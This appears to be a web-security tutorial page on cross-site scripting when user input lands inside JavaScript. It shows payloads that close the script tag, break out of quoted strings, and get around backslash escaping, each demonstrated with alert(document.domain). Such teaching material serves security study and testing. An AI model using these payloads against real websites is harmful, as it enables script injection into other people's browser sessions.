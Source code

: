 Some XSS context can be found inside JavaScript within the response. In this situation, a wide variety of results can arise, with different techniques necessary to successfully perform an exploit.
## Terminating Existing Script
In the simplest case, it is possible to simply close the script tag in the existing JavaScript, and introduce a new HTML tag that will trigger the execution of JavaScript. For example, if the XSS context is as follows:
```js
<script>
var input = 'controllable data here';
</script>
```
An attacker can simply use the following payload to break out of existing JavaScript and execute their payload:
```html
';</script><img src=1 onerror=alert(document.domain) />
```
## Breaking Out of a JavaScript String
Some XSS contexts are inside a quoted string literal. The following are some useful ways of breaking out of a string literal:
```js
'-alert(document.domain)-'
```
```js
';alert(document.domain)//
```
It is important to repair or comment out the script following the XSS payload, as any syntax error will prevent the whole script from executing.

However, some applications escapes single or double-quote characters with a backslash, which tells the JavaScript parser to interpret it as a string instead of as a special character. You can attempt to bypass this by neutralizing the backslash added by the application using your own backslash character.

For example, suppose the input:
```js
';alert(document.domain)//
```
gets converted to:
```js
\';alert(document.domain)//
```
The alternative payload would be:
```js
\';alert(document.domain)//
```
which gets converted to:
```js
\\';alert(document.domain)//
```
 Here, the first backslash means that the second backslash is interpreted literally, and not as a special character. This means that the quote is now interpreted as a string terminator, and so the attack succeeds.